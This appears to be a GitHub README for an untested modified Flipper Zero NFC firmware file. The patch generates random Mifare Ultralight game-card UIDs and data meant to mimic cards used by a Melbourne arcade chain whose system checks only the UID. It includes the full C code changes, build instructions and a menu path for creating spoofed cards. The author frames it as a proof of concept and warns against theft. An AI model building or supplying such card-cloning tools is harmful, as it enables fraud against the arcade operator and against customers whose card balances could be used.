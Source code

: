 # flipper_NFC_gamecard_hack

I have uploaded the firmware for a short amount of time. I have COVID and am unable to test this. If someone reads this and wants to test, load the updater in the zip file on the flipper and let me know. Send me a message here https://www.reddit.com/user/Calm_Spread5505 


In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW THE INSECURITY OF ONLY USING THE UID IN A CARD BASED MONEY SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID NON EXPIRED CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.

Please note that I cannot program in C or C++ or any form of C programming. I can do python, AutoIT, Arduino, Bash and Batch but I'm waaaaay out of practice. This is just hacked up using what was already there in the unleashed firmware. The file is prob different in OG, Roguemaster or any other firmware you want to use.

Instructions:
Copy this file over the top of the original file located ``` lib/nfc/helpers/ ``` and build the firmware. tested with unleashed unlshd-020

Once the new compiled firmware is loaded onto the flipper go to Menu -> NFC -> Add Manually -> Mifare (Timezone)

Do not copy to the flipper. nothing will change.


My changes to the original file are below.

Added: 

```
static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```
static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```
static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // Theres some carry over data between the few cards I have here. This data is below.
    memset(&mful->data[9], 0x48, 1);
    memset(&mful->data[10], 0xF0, 1);
    // There looks to be some random data for bytes 16 to 31. 
    furi_hal_random_fill_buf(&mful->data[16], 16);

}
```

```
static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
};
```

And added ``` &mf_tz_generator, ``` to ``` const NfcGenerator* const nfc_generators[] = { ```
